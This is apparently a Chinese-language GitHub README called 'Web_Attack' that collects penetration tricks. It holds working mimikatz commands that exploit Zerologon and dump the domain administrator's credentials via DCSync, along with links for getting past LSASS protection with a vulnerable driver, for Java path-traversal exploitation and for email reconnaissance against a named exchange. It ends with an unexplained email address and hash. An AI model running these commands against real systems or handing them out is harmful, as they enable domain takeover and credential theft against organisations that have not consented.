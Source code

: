 # Web_Attack

记录一些渗透中的小技巧，帮助各位攻破各种"不可能"


验证Mail是否存在

http://mailtester.com/testmail.php


搜索Google群组,查看是否有群组，可以查看到邮箱 用户 或者 第三方域名

https://groups.google.com/a/binance.com/forum/


发现WEB-INF/web.xml，扩大攻击面

https://gist.githubusercontent.com/harisec/519dc6b45c6b594908c37d9ac19edbc3/raw/af521a3c730d4a77660e91ed41f51725cb0bbde3/exploit_path_traversals_in_Java_webapps.txt


Zerologon  突破 445

lsadump::zerologon /target:WIN-4MRAELMUJKS /account:WIN-4MRAELMUJKS$

lsadump::zerologon /target:WIN-4MRAELMUJKS /account:WIN-4MRAELMUJKS$ /exploit

lsadump::dcsync /domain:red.com /dc:WIN-4MRAELMUJKS /user:administrator /authuser:WIN-4MRAELMUJKS$ /authdomain:red /authpassword:"" /authntlm

lsadump::postzerologon /target:red.com /account:WIN-4MRAELMUJKS$

利用BYOvD漏洞加载mimidiv 来绕过Lsass保护
https://medium.com/@gorkemkaradeniz/defeating-runasppl-utilizing-vulnerable-drivers-to-read-lsass-with-mimikatz-28f4b50b1de5
https://github.com/alxbrn/gdrv-loader  POC

寻找后门设备！

https://paper.seebug.org/1576/


"sec@smartservice.com.cn"
"bfaec2da79d0955518c6beb581e09f47"


